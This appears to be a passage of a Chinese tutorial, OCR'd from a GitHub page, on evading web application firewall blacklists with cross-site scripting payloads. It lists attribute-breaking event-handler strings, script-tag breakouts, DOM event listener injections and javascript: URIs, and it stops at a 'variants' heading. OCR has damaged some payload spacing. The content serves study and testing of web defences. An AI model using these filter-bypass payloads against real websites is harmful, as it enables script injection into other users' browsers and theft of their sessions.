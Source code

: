 WAF最大的问题是不能理解内容，使用黑名单可以阻挡独立的js脚本，但仍不能对xss提供足够的保护，如果一个反射型的XSS是下面这种形式

输入反射属性
```	
<input value="XSStest" type=text>
```
我们可以使用 ` “><imgsrc=x  onerror=prompt(0);> `触发，但是如果<>被过滤，我们仍然可以使用“ autofocusonfocus=alert(1)//触发，基本是使用“ 关闭value属性，再加入我们的执行脚本
```
" onmouseover="prompt(0) x="
" onfocusin=alert(1)     autofocus x="
" onfocusout=alert(1)     autofocus x="
" onblur=alert(1) autofocus     a="
```
输入反射在<script>标签内

类似这种情况：
```
<script>
Var
x=”Input”;
</script>
```
通常，我们使用“></script>,闭合前面的</script>标签，然而在这种情况，我们也可以直接输入执行脚本alert(), prompt()
confirm() ，例如：
```
“;alert(1)//
```
非常规事件监听

DOMfocusin,DOMfocusout,等事件，这些需要特定的事件监听适当的执行。例如：
```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```
此类事件的列表
 
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified

超文本内容

代码中的情况如下
```	
<a
href=”Userinput”>Click</a>
 
可以使用javascript:alert(1)//直接执行<a
href=”javascript:alert(1)//”>Click</a>
```
变形
